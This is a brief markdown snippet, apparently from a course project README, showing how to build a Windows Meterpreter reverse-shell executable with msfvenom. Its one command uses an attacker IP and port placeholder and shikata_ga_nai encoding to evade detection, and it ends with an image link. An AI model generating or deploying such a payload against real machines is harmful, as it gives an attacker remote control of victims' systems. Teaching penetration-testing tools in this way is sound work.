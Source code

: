 # Creating a payload with Msfvenom

To create a Meterpreter reverse shell, execute the following command

**msfvenom -p windows/meterpreter/reverse_tcp lhost=[attacker ip] lport[attacker port] --platform windows -e x86/shikata_ga_nai -f exe -o [name of payload executable].exe**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/msfvenom.png" width="800">

